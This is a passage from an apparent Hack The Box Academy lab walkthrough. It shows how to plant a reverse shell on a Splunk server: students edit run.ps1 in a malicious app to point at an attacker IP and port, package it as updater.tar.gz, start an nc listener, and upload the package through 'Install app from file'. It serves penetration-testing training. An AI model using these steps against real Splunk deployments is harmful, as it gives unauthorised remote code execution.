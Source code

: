 Then, students need to edit the file `run.ps1` under the directory `reverse_shell_splunk/reverse_shell_splunk/bin` to insert `PWNIP` and `PWNPO`, in place of `'attacker_ip_here'` and `attacker_port_here`:

![[HTB Solutions/CPTS/z. images/f34ba2ff0eb8cbf7c36e6c2d0ae4e06c_MD5.jpg]]

After saving the edited file, students need to create a tar ball of the directory so that it can be uploaded to `Splunk`:

Code: shell

```shell
tar -cvzf updater.tar.gz reverse_shell_splunk/
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-7c8tyukmzo]─[~/reverse_shell_splunk]
└──╼ [★]$ tar -cvzf updater.tar.gz reverse_shell_splunk/

reverse_shell_splunk/
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
```

Students then need to start an `nc` listener on Pwnbox/`PMVPN`, specifying the same port used in the `run.ps1` file:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-f6k4hfqgg8]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Back on the browser page with `https://STMIP:8000` open, students need to click on "Manage Apps":

![[HTB Solutions/CPTS/z. images/77c465766fe6658e1875ab9727bff059_MD5.jpg]]

Then, students need to click on "Install app from file" and upload the tar ball file:

![[HTB Solutions/CPTS/z. images/83c665ed48b4b8787d46c0ab82f0fe5e_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/30bda3ebc963ec9e577f84a6cd78fdda_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/8043016aaeee8921843446d17e5cedea_MD5.jpg]]
